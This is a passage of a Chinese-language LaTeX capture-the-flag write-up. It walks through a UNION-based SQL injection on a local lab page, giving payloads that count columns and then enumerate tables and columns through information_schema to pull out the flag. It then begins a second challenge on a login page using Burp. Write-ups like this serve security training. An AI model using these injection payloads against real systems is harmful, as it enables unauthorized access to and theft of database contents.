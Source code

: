 \textbf{这里注意用网页上的在线url编码时，' '编码为加号，其他编码也和书上提到的不一样，感觉字符集不一样，于是最后手动编码，替换的敏感符号。}

\subsubsection*{UNION查询}
因为UNION后的SELECT语句必须选择和前面的语句相同的列数，因此首先确定列数：
\begin{lstlisting}
id=-1' union select 1#
id=-1' union select 1,2#
id=-1' union select 1,2,3#
\end{lstlisting}
在第三句时得到输出2,3，因此UNION后的语句需要有3列，且目标内容要放到后两列：
\begin{lstlisting}
id=-1' union select 1,group_concat(table_name),1 from information_schema.tables where table_schema=database()#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
fl4g,notes
1
\end{lstlisting}

查看fl4g表中的列：
\begin{lstlisting}
id=-1' union select 1,group_concat(column_name),1 from information_schema.columns where table_name='fl4g'#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
fllllag
1
\end{lstlisting}

最后查询fllllag列：
\begin{lstlisting}
id=-1' union select 1,group_concat(fllllag),1 from fl4g#
\end{lstlisting}
页面输出为：
\begin{lstlisting}
n1book{union_select_is_so_cool}
1
\end{lstlisting}
获得flag。

\subsection{SQL注入-2}
题目描述：请访问 http://127.0.0.1/login.php\ http://127.0.0.1/user.php

访问login界面是一个输入账户名和密码的界面，访问user界面提示未登录。在login界面随便试了一下发现有一个admin账户，但是试不出来密码。
打开源码有提示让在URL里面加上'?tips=1'，然后可以通过burp查看mysql报错信息。按提示打开后，在burp中拦截发送的包，发送后并没有回复包里看到报错信息，如图~\ref{fig:pic2}。
\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{1-web_junior/pic/2.jpg}
\caption{发送包和回复包}
\label{fig:pic2}
\end{figure}

